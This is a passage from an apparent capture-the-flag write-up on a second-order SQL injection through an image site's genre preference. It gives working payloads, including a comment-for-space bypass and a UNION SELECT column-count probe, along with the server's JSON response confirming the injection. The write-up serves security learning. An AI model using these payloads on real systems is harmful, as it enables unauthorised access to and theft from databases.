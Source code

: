 Since this is a second order injection, so we need to change one side and check the other side to get the leak of database.

To get a working injection, I’ll try to “fix” the injection query to get it working again while still having my injection. A simple first guess is setting genres to something like food,' or 1=1-- -. this still returns a 500 error.

So I guess the SQL query running on the server must look something like:
```
SELECT * from images WHERE genre IN ('genre1', 'genre2', 'genre3')
```
If that’s the case, then I would want my input to close both the single quote as well as the parenthesis, with something like food,') or 1=1;-- -. That still errors.

I already noted above that having a space in the query might have been messing something up. Without knowing what it’s doing, I can try using comments instead of spaces, like this:
`food')/**/or/**/1=1#`

It’s important to switch from the -- - comment to #, as the former requires a space to make the comment, and I’m testing without spaces (`--/**/-` will not work).

With my genres set to that, “Your Feed” populates with images of genre animal, architecture, feed, nature, etc. This is successful injection, and it’s a second-order SQL injection because the query to one page that sets the injection is then manifested on another page when viewed.

To do a UNION injection, I’ll need to know the number of columns naturally returned from the query so I can UNION on that same number of columns of data to leak.

I’ll see from the data returned above that each image has at least six things returned `(id, file, genre, created_at, udpated_at, and url)`, through url could be generated from file, so maybe only five items. I’ll try five like this: `')/**/UNION/**/SELECT/**/1,2,3,4,5#`.

In Repeater, I’ll request the feed, and it returns exactly what I’m hoping for:
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/json
Connection: close
Cache-Control: no-cache, private
Date: Thu, 14 Sep 2023 19:27:29 GMT
X-RateLimit-Limit: 3600
X-RateLimit-Remaining: 3594
Access-Control-Allow-Origin: *
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Length: 168

{
  "status":"success",
  "data":[
    {
      "id":1,
      "file":"2",
      "genre":"3",
      "created_at":"1970-01-01T00:00:04.000000Z",
      "updated_at":"1970-01-01T00:00:05.000000Z",
      "url":"\/storage\/2"
    }
  ]
}

```
